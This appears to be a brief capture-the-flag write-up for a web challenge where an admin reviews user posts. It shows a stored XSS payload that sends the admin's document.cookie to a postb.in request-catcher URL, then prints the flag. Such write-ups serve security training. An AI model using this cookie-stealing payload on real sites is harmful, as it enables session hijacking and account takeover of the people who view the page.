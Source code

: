 After going around the website, there is not much to see besides the 'Create a new post' form, so this is our potential target.

After creating a post you are told that the admin will look at it, so you may potentially execute a XSS attack.

The idea of the attack is to steal the admin's cookies.

To do that, create a new PostBin in https://postb.in/ and create a new post that will redirect the admin to it, like this:

<script>
	target.href="https://postb.in/1561376411756-0296571028884?cookie=" + document.cookie;
</script>

In PostBin you can then read the cookie that is sent.

CTF{8aaa2f34b392b415601804c2f5f0f24e}